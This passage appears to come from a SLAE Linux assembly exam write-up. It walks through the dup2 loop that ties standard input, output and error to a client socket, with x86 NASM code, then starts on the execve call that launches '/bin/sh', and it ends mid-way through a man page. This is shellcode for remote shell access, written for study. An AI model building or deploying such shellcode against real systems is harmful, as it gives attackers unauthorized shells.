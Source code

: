 The dup2 syscall code can be found in the header file below, converting 63 from decimal to hex equals 0x3f:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2 
#define __NR_dup2 63
```

All required arguments of dup2 are in sockfd (stored in accept syscall), which will be moved into EBX.

The syscall code of 0x3f is moved in the lower part of the EAX memory region.

Whilst the signed flag is not set (JNS) - the counter register is decremented each time within the loop. Once the value of '-1' gets set in ECX, the signed flag will be set and the loop is broken (exits when $exc equals 0).

5th syscall (Assembly code section):

```nasm
	; 5th syscall - duplicate file descriptors for STDIN, STDOUT and STDERR
        mov edx, eax    ; save client file descriptor
	xor ecx, ecx	; clear ecx register
	mov cl, 3	; counter for file descriptors 0,1,2 (STDIN, STDOUT, STDERR)
	mov ebx, edx	; move socket into ebx (new int sockfd)

        loop_dup2:
        dec ecx         ; decrement ecx by 1 (new int sockfd)
	mov al, 0x3f  	; move the dup2 syscall code into the lower part of eax
        int 0x80      	; call interrupt to execute dup2 syscall
        jns loop_dup2   ; repeat for 1,0
```

#### 6th Syscall (Execute /bin/sh using Execve) 
------

The final syscall instructs the program to execute the execve syscall which essentially points to '/bin/sh'. 

The execve syscall is defined by the man pages as follows:

```bash
osboxes@osboxes:~/Downloads/SLAE$ man execve

EXECVE(2)                              Linux Programmer's Manual                             EXECVE(2)

NAME
       execve - execute program

SYNOPSIS
       #include <unistd.h>

       int execve(const char *filename, char *const argv[],
                  char *const envp[]);

DESCRIPTION
       execve()  executes  the  program pointed to by filename.  filename must be either a binary exe-
       cutable, or a script starting with a line of the form:

           #! interpreter [optional-arg]

       For details of the latter case, see "Interpreter scripts" below.

       argv is an array of argument strings passed to the new program.  By convention,  the  first  of
```

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1